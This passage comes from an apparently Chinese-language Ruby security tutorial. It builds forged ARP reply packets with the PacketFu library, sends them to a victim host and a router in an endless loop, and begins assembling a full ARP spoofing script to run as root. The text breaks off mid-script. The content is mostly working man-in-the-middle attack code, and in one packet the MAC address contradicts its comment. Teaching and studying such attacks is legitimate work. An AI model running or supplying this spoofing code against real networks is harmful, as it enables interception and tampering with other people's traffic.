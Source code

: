 因此，你可以像任何哈希`info[:iface]`，`info[:ip_saddr]`，`info[:eth_saddr]`等提取这些信息。

**构建受害者的 ARP 数据包**

```
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_victim.eth_daddr = "00:0C:29:38:1D:61"       # the victim's MAC address
# Build ARP Packet
arp_packet_victim.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_victim.arp_daddr_mac = "00:0C:29:38:1D:61"   # the victim's MAC address
arp_packet_victim.arp_saddr_ip = "192.168.0.1"          # the router's IP
arp_packet_victim.arp_daddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_victim.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**构建路由器数据包**

```
# Build Ethernet header
arp_packet_router = PacketFu::ARPPacket.new
arp_packet_router.eth_saddr = "3C:77:E6:68:66:E9"       # our MAC address
arp_packet_router.eth_daddr = "00:0C:29:38:1D:61"       # the router's MAC address
# Build ARP Packet
arp_packet_router.arp_saddr_mac = "3C:77:E6:68:66:E9"   # our MAC address
arp_packet_router.arp_daddr_mac = "00:50:7F:E6:96:20"   # the router's MAC address
arp_packet_router.arp_saddr_ip = "192.168.0.21"         # the victim's IP
arp_packet_router.arp_daddr_ip = "192.168.0.1"          # the router's IP
arp_packet_router.arp_opcode = 2                        # arp code 2 == ARP reply 
```

**运行 ARP 欺骗攻击**

```
# Send our packet through the wire
while true
    sleep 1
    puts "[+] Sending ARP packet to victim: #{arp_packet_victim.arp_daddr_ip}"
    arp_packet_victim.to_w(info[:iface])
    puts "[+] Sending ARP packet to router: #{arp_packet_router.arp_daddr_ip}"
    arp_packet_router.to_w(info[:iface])
end 
```

来源^(2)

将所有内容整合在一起并以`root`身份运行

```
#!/usr/bin/env ruby
#
# ARP Spoof Basic script
#
require 'packetfu'

attacker_mac = "3C:77:E6:68:66:E9"
victim_ip    = "192.168.0.21"
victim_mac   = "00:0C:29:38:1D:61"
router_ip    = "192.168.0.1"
router_mac   = "00:50:7F:E6:96:20"

info = PacketFu::Utils.whoami?(:iface => "wlan0")
#
# Victim
#
# Build Ethernet header
arp_packet_victim = PacketFu::ARPPacket.new
arp_packet_victim.eth_saddr = attacker_mac        # attacker MAC address
```